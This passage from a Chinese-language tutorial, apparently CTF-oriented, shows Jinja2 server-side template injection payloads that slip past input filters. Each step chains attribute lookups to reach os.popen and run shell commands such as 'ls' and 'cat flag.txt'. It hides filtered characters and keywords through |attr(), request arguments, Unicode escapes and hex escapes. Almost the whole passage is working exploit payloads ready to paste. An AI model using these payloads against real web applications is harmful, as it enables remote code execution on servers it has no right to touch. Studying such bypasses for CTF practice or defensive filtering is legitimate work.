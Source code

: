所以最终的 payload 如下：

```
{{()|attr(request.args.x1)|attr(request.args.x2)|attr(request.args.x3)()|attr(request.args.x4)(77)|attr(request.args.x5)|attr(request.args.x6)|attr(request.args.x4)(request.args.x7)|attr(request.args.x4)(request.args.x8)(request.args.x9)}}&x1=__class__&x2=__base__&x3=__subclasses__&x4=__getitem__&x5=__init__&x6=__globals__&x7=__builtins__&x8=eval&x9=__import__("os").popen('ls /').read()
```

### 用 Unicode 编码配合 `|attr()` 进行 Bypass

过滤了以下字符：

```
'  request  {{  _  %20(空格)  [  ]  .  __globals__   __getitem__
```

我们用 `{%...%}`绕过对 `{{` 的过滤，并用 unicode 绕过对关键字的过滤。unicode 绕过是一种网上没提出的方法。

假设我们要构造的 payload 原型为：

```
{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls').read()}}
```

先用 `|attr` 绕过 `.` 和 `[]`：

```
{{()|attr("__class__")|attr("__base__")|attr("__subclasses__")()|attr("__getitem__")(77)|attr("__init__")|attr("__globals__")|attr("__getitem__")("os")|attr("popen")("ls")|attr("read")()}}
```

我们可以将过滤掉的字符用 unicode 替换掉：

```
{{()|attr("\u005f\u005f\u0063\u006c\u0061\u0073\u0073\u005f\u005f")|attr("\u005f\u005f\u0062\u0061\u0073\u0065\u005f\u005f")|attr("\u005f\u005f\u0073\u0075\u0062\u0063\u006c\u0061\u0073\u0073\u0065\u0073\u005f\u005f")()|attr("\u005f\u005f\u0067\u0065\u0074\u0069\u0074\u0065\u006d\u005f\u005f")(77)|attr("\u005f\u005f\u0069\u006e\u0069\u0074\u005f\u005f")|attr("\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f")|attr("\u005f\u005f\u0067\u0065\u0074\u0069\u0074\u0065\u006d\u005f\u005f")("os")|attr("popen")("ls")|attr("read")()}}
```

### 用 Hex 编码配合 `|attr()` 进行 Bypass

和上面那个一样，只不过是将 Unicode 编码换成了 Hex 编码，适用于 “u” 被过滤了的情况。

我们可以将过滤掉的字符用 Hex 编码替换掉：

```
{{()|attr("\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f")|attr("\x5f\x5f\x62\x61\x73\x65\x5f\x5f")|attr("\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f")()|attr("\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f")(258)|attr("\x5f\x5f\x69\x6e\x69\x74\x5f\x5f")|attr("\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f")|attr("\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f")("os")|attr("popen")("cat\x20\x66\x6c\x61\x67\x2e\x74\x78\x74")|attr("read")()}}
```

过滤了 request 和 class
-------------------
